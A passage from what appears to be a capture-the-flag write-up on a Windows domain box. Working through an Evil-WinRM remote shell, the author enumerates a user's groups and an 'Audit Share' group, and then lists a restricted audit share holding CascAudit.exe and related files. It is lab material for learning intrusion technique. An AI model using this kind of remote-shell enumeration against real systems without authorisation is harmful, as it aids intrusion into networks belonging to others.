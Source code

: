     Workstations allowed         All
    Logon script                 MapAuditDrive.vbs
    User profile
    Home directory
    Last logon                   3/30/2020 6:40:39 AM

    Logon hours allowed          All

    Local Group Memberships      *Audit Share          *IT
                                 *Remote Management Use
    Global Group memberships     *Domain Users
    The command completed successfully.



That's not a standard MS Group, so I'll check it out:



    *Evil-WinRM* PS C:\shares\audit> net localgroup "Audit Share"
    Alias name     Audit Share
    Comment        \\Casc-DC1\Audit$

    Members

    -------------------------------------------------------------------------------
    s.smith
    The command completed successfully.



s.smith is the only user in the group, but the comment is a useful hint
to look at this share. There's a `c:\shares\`, but I don't have
permissions to list the directories in it:



    *Evil-WinRM* PS C:\shares> ls
    Access to the path 'C:\shares' is denied.
    At line:1 char:1
    + ls
    + ~~
        + CategoryInfo          : PermissionDenied: (C:\shares:String) [Get-ChildItem], UnauthorizedAccessException
        + FullyQualifiedErrorId : DirUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetChildItemCommand



However, I can just go into `Audit` based on the share name in the
comment:



    *Evil-WinRM* PS C:\shares\audit> ls

        Directory: C:\shares\audit

    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    d-----        1/28/2020   9:40 PM                DB
    d-----        1/26/2020  10:25 PM                x64
    d-----        1/26/2020  10:25 PM                x86
    -a----        1/28/2020   9:46 PM          13312 CascAudit.exe
    -a----        1/29/2020   6:00 PM          12288 CascCrypto.dll
    -a----        1/28/2020  11:29 PM             45 RunAudit.bat
    -a----       10/27/2019   6:38 AM         363520 System.Data.SQLite.dll
    -a----       10/27/2019   6:38 AM         186880 System.Data.SQLite.EF6.dll
